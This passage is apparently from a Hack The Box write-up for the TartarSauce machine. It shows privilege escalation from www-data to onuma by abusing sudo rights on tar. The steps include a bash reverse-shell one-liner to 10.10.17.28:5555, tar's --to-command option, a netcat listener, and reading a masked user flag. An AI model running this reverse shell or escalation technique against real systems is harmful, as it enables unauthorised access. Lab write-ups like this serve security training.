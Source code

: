 # Privilege Escalation

---

## www-data → onuma

---

I have no access to the user directory, so I need to privesc to onuma. I check the sudo programs:

```bash
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

I can run tar as onuma without password, nothing easier than this (see [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo)):

```bash
cd /dev/shm
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.17.28/5555 0>&1' > a.sh
tar -cvf a.tar a.sh
sudo -u onuma tar -xvf a.tar --to-command /bin/bash
```

This will spawn a reverse shell (I think it would also have worked with spawning a normal shell):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/tartarsauce]
└─$ nc -lvnp 5555    
listening on [any] 5555 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.88] 37022
onuma@TartarSauce:/dev/shm$ whoami
whoami
onuma
```

There is the shell as onuma.

### User Flag

---

I should now be able to read the user flag:

```bash
onuma@TartarSauce:/dev/shm$ cd /home/onuma
cd /home/onuma
onuma@TartarSauce:~$ ls
ls
shadow_bkp
user.txt
onuma@TartarSauce:~$ cat user.txt
cat user.txt
b2**************************82c7
```
